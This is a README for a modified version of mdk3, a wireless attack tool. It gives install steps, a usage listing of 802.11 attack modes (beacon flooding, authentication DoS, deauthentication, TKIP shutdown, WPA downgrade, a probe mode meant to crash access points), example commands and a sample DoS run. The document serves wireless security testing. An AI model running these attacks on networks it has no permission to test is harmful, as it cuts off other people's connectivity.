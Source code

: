 # mdk3
mdk3 repository imported from kali linux's git server (	git://git.kali.org/packages/mdk3.git). Import date 19/07/2016.

The rest of readme is from https://github.com/charlesxsh/mdk3-master

#Overview

These modifications were not made by me, they were made by a Musket Developer that I have been working with. 
I have been given permission to share it with the public.
This version of MDK3 has a new feature that sends directed probe requests with invalid SSID characters to an AP.
The hope is that if enough probes are sent, the AP will lock up and reboot.
This tool should only be used for experimenting with the security of your own wireless network.

#Installation

    cd /mdk3-master
    make
    sudo make install

#Usage
    MDK 3.0 v6(mod-musket-r1) - "fuck the censorship"
    by ASPj of k2wrlz, using the osdep library from aircrack-ng
    And with lots of help from the great aircrack-ng community:
    Antragon, moongray, Ace, Zero_Chaos, Hirte, thefkboss, ducttape,
    telek0miker, Le_Vert, sorbo, Andy Green, bahathir and Dawid Gajownik
    THANK YOU!

    MDK is a proof-of-concept tool to exploit common IEEE 802.11 protocol weaknesses.
    IMPORTANT: It is your responsibility to make sure you have permission from the
    network owner before running MDK against it.

    This code is licenced under the GPLv2

    MDK USAGE:
    mdk3 <interface> <test_mode> [test_options]

    Try mdk3 --fullhelp for all test options
    Try mdk3 --help <test_mode> for info about one test only

    TEST MODES:
    b   - Beacon Flood Mode
      Sends beacon frames to show fake APs at clients.
      This can sometimes crash network scanners and even drivers!
    a   - Authentication DoS mode
      Sends authentication frames to all APs found in range.
      Too much clients freeze or reset some APs.
    p   - Basic probing and ESSID Bruteforce mode
      Probes AP and check for answer, useful for checking if SSID has
      been correctly decloaked or if AP is in your adaptors sending range
      SSID Bruteforcing is also possible with this test mode.
    d   - Deauthentication / Disassociation Amok Mode
      Kicks everybody found from AP
    m   - Michael shutdown exploitation (TKIP)
      Cancels all traffic continuously
    x   - 802.1X tests
    w   - WIDS/WIPS Confusion
      Confuse/Abuse Intrusion Detection and Prevention Systems
    f   - MAC filter bruteforce mode
      This test uses a list of known client MAC Adresses and tries to
      authenticate them to the given AP while dynamically changing
      its response timeout for best performance. It currently works only
      on APs who deny an open authentication request properly
    g   - WPA Downgrade test
      deauthenticates Stations and APs sending WPA encrypted packets.
      With this test you can check if the sysadmin will try setting his
      network to WEP or disable encryption.
    t   - Probe Request Tests (mod-musket)
      mdk3 <mon> t <channel> <bssid AP> <frames/sec>

#Example Usage
        mdk3 mon0 t 11 00:11:22:33:44:55 50
        mdk3 wlan0mon t 11 00:11:22:33:44:55 50
mon0/wlan0mon is the monitor interface, t is Probe Request Mode, 11 is channel 11, 00:11:22... is the target's MAC Address, and 50 is the packets per second.

#Contributions
A big thanks to the Musket Developer who added this new test option to MDK3 :D


The following lines are from http://tools.kali.org/wireless-attacks/mdk3

#mdk3 Usage Example

Use the wireless interface (wlan0) to run the Authentication DoS mode test (a):

```
root@kali:~# mdk3 wlan0 a

Trying to get a new target AP...                  
AP 9C:D3:6D:B8:FF:56 is responding!          
Connecting Client: 00:00:00:00:00:00 to target AP: 9C:D3:6D:B8:FF:56
Connecting Client: 00:00:00:00:00:00 to target AP: 9C:D3:6D:B8:FF:56
AP 9C:D3:6D:B8:FF:56 seems to be INVULNERABLE!      
Device is still responding with   500 clients connected!
Trying to get a new target AP...                  
AP E0:3F:49:6A:57:78 is responding!          
Connecting Client: 00:00:00:00:00:00 to target AP: E0:3F:49:6A:57:78
AP E0:3F:49:6A:57:78 seems to be INVULNERABLE!
```